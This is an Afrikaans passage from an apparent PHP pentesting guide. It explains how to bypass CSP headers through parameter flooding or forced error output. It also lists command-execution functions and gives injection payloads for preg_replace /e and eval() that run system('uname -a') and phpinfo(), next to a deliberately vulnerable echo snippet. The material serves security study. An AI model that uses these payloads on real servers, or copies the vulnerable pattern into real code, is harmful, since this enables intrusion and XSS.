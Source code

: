#### Fout veroorsaak na instel van headers

Van [**hierdie twitter draad**](https://twitter.com/pilvar222/status/1784618120902005070?t=xYn7KdyIvnNOlkVaGbgL6A&s=19) kan jy sien dat die sending van meer as 1000 GET params of 1000 POST params of 20 lêers, PHP nie headers in die antwoord gaan instel nie.

Dit laat toe om byvoorbeeld CSP headers te omseil wat in kodes soos:
```php
<?php
header("Content-Security-Policy: default-src 'none';");
if (isset($_GET["xss"])) echo $_GET["xss"];
```
#### Vul 'n liggaam in voordat jy koptekste stel

As 'n **PHP-bladsy foute druk en terugvoer gee van insette wat deur die gebruiker verskaf is**, kan die gebruiker die PHP-bediener dwing om 'n **inhoud lank genoeg** te druk sodat wanneer dit probeer om die **koptekste** in die antwoord by te voeg, die bediener 'n fout sal gooi.\
In die volgende scenario het die **aanvaller die bediener gedwing om groot foute te gooi**, en soos jy in die skerm kan sien, toe php probeer het om die **kopinligting te wysig, kon dit nie** (soos byvoorbeeld die CSP-kop nie aan die gebruiker gestuur is nie):

![](<../../../images/image (1085).png>)

## SSRF in PHP funksies

Kyk na die bladsy:

{{#ref}}
php-ssrf.md
{{#endref}}

## Kode-uitvoering

**system("ls");**\
&#xNAN;**\`ls\`;**\
**shell_exec("ls");**

[Kyk hierna vir meer nuttige PHP funksies](php-useful-functions-disable_functions-open_basedir-bypass/)

### **RCE via** **preg_replace()**
```php
preg_replace(pattern,replace,base)
preg_replace("/a/e","phpinfo()","whatever")
```
Om die kode in die "replace" argument uit te voer, is ten minste een ooreenkoms nodig.\
Hierdie opsie van preg_replace is **verouderd sedert PHP 5.5.0.**

### **RCE via Eval()**
```
'.system('uname -a'); $dummy='
'.system('uname -a');#
'.system('uname -a');//
'.phpinfo().'
<?php phpinfo(); ?>
```
### **RCE via Assert()**
